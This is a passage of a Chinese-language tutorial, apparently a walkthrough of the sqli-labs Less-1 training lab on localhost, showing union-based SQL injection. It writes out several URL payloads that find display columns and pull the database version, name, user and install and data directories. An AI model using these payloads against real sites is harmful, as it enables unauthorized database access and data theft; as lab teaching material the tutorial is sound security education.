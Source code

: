 咦，这里为啥不显示我们联合查询的呢？因为这个页面只显示一行数据，所以我们可以用 and 1=2 把前面的条件给否定了，或者我们直接把前面 id=1 改成 id =-1 ,在后面的代码中，都是将 id=-1进行注入

```
http://127.0.0.1/sqli/Less-1/?id=1' and 1=2 union select 1,2,3 #
​
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,2,3 #
```

[![](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p3.ssl.qhimg.com/t013e05815266fe4bc7.png)](https://p3.ssl.qhimg.com/t013e05815266fe4bc7.png)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)

这样，我们联合查询的就显示出来了。可知，第2列和第3列是显示列。那我们就可以在这两个位置插入一些函数了。

我们可以通过这些函数获得该数据库的一些重要的信息

**· ** version() ：数据库的版本

**· ** database() :当前所在的数据库

**· ** @@basedir : 数据库的安装目录

**· ** @@datadir ： 数据库文件的存放目录

**· ** user() ： 数据库的用户

**· ** current_user() : 当前用户名

**· ** system_user() : 系统用户名

**· ** session_user() :连接到数据库的用户名

```
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,version(),user() #
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016278b009e8571fa4.png)

```
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,database(),@@basedir #
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p3.ssl.qhimg.com/t016278b009e8571fa4.png)](https://p3.ssl.qhimg.com/t016278b009e8571fa4.png)

```
http://127.0.0.1/sqli/Less-1/?id=-1'   union select 1,@@datadir,current_user() #
```

[![](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)](https://p3.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p3.ssl.qhimg.com/t0178330e8d6a571ce4.png)](https://p3.ssl.qhimg.com/t0178330e8d6a571ce4.png)
